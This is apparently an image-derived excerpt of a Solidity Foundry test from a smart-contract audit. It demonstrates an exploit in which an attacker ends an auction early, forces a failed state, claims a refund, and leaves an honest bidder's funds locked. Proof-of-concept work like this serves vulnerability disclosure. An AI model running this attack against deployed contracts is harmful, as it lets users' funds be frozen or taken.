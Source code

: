 ```solidity
        Token(_reserve).approve(address(factory), type(uint256).max);

        // Create Pool
        PoolFactory.PoolParams memory params;
        params.fee = 0;
        params.reserveToken = _reserve;
        params.couponToken = _coupon;
        params.distributionPeriod = 30 days;
        params.sharesPerToken = 1000000;
        params.feeBeneficiary = house;

        address newPool = factory.createPool(
            params,
            100_000 ether,  // deposit reserve tokens
            1000 * 1e18,    // bond tokens minted
            1000 * 1e18,    // leverage tokens minted
            "bondToken",
            "BOND",
            "levToken",
            "LEV",
            false
        );
        vm.stopPrank();
        return newPool;
    }

    // -----------------------------------------------------------------------------
    // Exploit demonstration
    // -----------------------------------------------------------------------------

    function testPrematureAuctionEnd() public {
        // Both attacker and an honest bidder place bids
        vm.startPrank(attacker);
        auction.bid(1000 ether, 10000_000); // Attacker's bid
        vm.stopPrank();

        vm.startPrank(honestBidder);
        auction.bid(500 ether, 5000_000);   // Honest bid
        vm.stopPrank();

        // Fast-forward to after the auction endTime
        vm.warp(block.timestamp + 4 days);

        // Attacker ends the auction, forcing FAILED_UNDERSOLD
        vm.startPrank(attacker);
        auction.endAuction();
        // Auction now in FAILED_UNDERSOLD
        // Attacker calls claimRefund()
        auction.claimRefund(1); // bidIndex=1 is attacker's
        vm.stopPrank();

        // The honest bidder’s funds are stuck:
        // They can’t do claimBid() because the auction is failed, not succeeded.
        // We'll assert final states to confirm the exploit
        (,,,,, bool attackerClaimed) = auction.bids(1);
        assertTrue(attackerClaimed, "Attacker didn't successfully claim refund");

        // Because it's in a failed state, honestBidder's claimBid() is impossible
        // They can only call claimRefund() if they've triggered endAuction() themselves
        // but that won't return them the reserve token. The attacker effectively forced everyone else into a losing scenario.
    }
}
```